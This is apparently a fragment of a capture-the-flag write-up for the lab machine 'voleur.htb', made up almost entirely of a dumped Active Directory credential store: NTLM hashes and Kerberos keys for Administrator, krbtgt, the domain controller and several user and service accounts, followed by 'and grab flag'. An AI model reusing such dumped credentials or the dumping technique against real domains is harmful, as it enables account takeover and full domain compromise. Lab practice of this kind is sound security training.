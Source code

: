 ```bash
voleur.htb\svc_backup:1107:aad3b435b51404eeaad3b435b51404ee:f44fe33f650443235b2798c72027c573:::
voleur.htb\svc_iis:1108:aad3b435b51404eeaad3b435b51404ee:246566da92d43a35bdea2b0c18c89410:::
voleur.htb\jeremy.combs:1109:aad3b435b51404eeaad3b435b51404ee:7b4c3ae2cbd5d74b7055b7f64c0b3b4c:::
voleur.htb\svc_winrm:1601:aad3b435b51404eeaad3b435b51404ee:5d7e37717757433b4780079ee9b1d421:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:f577668d58955ab962be9a489c032f06d84f3b66cc05de37716cac917acbeebb
Administrator:aes128-cts-hmac-sha1-96:38af4c8667c90d19b286c7af861b10cc
Administrator:des-cbc-md5:459d836b9edcd6b0
DC$:aes256-cts-hmac-sha1-96:65d713fde9ec5e1b1fd9144ebddb43221123c44e00c9dacd8bfc2cc7b00908b7
DC$:aes128-cts-hmac-sha1-96:fa76ee3b2757db16b99ffa087f451782
DC$:des-cbc-md5:64e05b6d1abff1c8
krbtgt:aes256-cts-hmac-sha1-96:2500eceb45dd5d23a2e98487ae528beb0b6f3712f243eeb0134e7d0b5b25b145
krbtgt:aes128-cts-hmac-sha1-96:04e5e22b0af794abb2402c97d535c211
krbtgt:des-cbc-md5:34ae31d073f86d20
voleur.htb\ryan.naylor:aes256-cts-hmac-sha1-96:0923b1bd1e31a3e62bb3a55c74743ae76d27b296220b6899073cc457191fdc74
voleur.htb\ryan.naylor:aes128-cts-hmac-sha1-96:6417577cdfc92003ade09833a87aa2d1
voleur.htb\ryan.naylor:des-cbc-md5:4376f7917a197a5b
voleur.htb\marie.bryant:aes256-cts-hmac-sha1-96:d8cb903cf9da9edd3f7b98cfcdb3d36fc3b5ad8f6f85ba816cc05e8b8795b15d
voleur.htb\marie.bryant:aes128-cts-hmac-sha1-96:a65a1d9383e664e82f74835d5953410f
voleur.htb\marie.bryant:des-cbc-md5:cdf1492604d3a220
voleur.htb\lacey.miller:aes256-cts-hmac-sha1-96:1b71b8173a25092bcd772f41d3a87aec938b319d6168c60fd433be52ee1ad9e9
voleur.htb\lacey.miller:aes128-cts-hmac-sha1-96:aa4ac73ae6f67d1ab538addadef53066
voleur.htb\lacey.miller:des-cbc-md5:6eef922076ba7675
voleur.htb\svc_ldap:aes256-cts-hmac-sha1-96:2f1281f5992200abb7adad44a91fa06e91185adda6d18bac73cbf0b8dfaa5910
voleur.htb\svc_ldap:aes128-cts-hmac-sha1-96:7841f6f3e4fe9fdff6ba8c36e8edb69f
voleur.htb\svc_ldap:des-cbc-md5:1ab0fbfeeaef5776
voleur.htb\svc_backup:aes256-cts-hmac-sha1-96:c0e9b919f92f8d14a7948bf3054a7988d6d01324813a69181cc44bb5d409786f
voleur.htb\svc_backup:aes128-cts-hmac-sha1-96:d6e19577c07b71eb8de65ec051cf4ddd
voleur.htb\svc_backup:des-cbc-md5:7ab513f8ab7f765e
voleur.htb\svc_iis:aes256-cts-hmac-sha1-96:77f1ce6c111fb2e712d814cdf8023f4e9c168841a706acacbaff4c4ecc772258
voleur.htb\svc_iis:aes128-cts-hmac-sha1-96:265363402ca1d4c6bd230f67137c1395
voleur.htb\svc_iis:des-cbc-md5:70ce25431c577f92
voleur.htb\jeremy.combs:aes256-cts-hmac-sha1-96:8bbb5ef576ea115a5d36348f7aa1a5e4ea70f7e74cd77c07aee3e9760557baa0
voleur.htb\jeremy.combs:aes128-cts-hmac-sha1-96:b70ef221c7ea1b59a4cfca2d857f8a27
voleur.htb\jeremy.combs:des-cbc-md5:192f702abff75257
voleur.htb\svc_winrm:aes256-cts-hmac-sha1-96:6285ca8b7770d08d625e437ee8a4e7ee6994eccc579276a24387470eaddce114
voleur.htb\svc_winrm:aes128-cts-hmac-sha1-96:f21998eb094707a8a3bac122cb80b831
voleur.htb\svc_winrm:des-cbc-md5:32b61fb92a7010ab

```

and grab flag
